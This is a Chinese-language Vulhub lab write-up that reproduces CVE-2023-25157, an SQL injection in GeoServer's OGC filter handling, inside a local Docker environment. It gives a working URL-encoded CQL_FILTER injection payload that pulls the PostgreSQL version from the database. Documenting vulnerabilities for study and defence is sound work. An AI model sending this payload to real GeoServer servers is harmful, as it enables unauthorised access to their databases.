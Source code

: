 # GeoServer OGC Filter SQL注入漏洞 CVE-2023-25157

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：

- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

## 漏洞环境

Vulhub执行如下命令启动一个SeoServer 2.22.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/geoserver`即可查看到GeoServer的首页。

![image-20230619102046107](images/image-20230619102046107.png)

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

利用这些已知参数，发送如下URL即可触发SQL注入漏洞（URL Encode）：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![image-20230619102139101](images/image-20230619102139101.png)

可见，已经使用SQL注入获取到了目标服务器PostgreSQL的版本。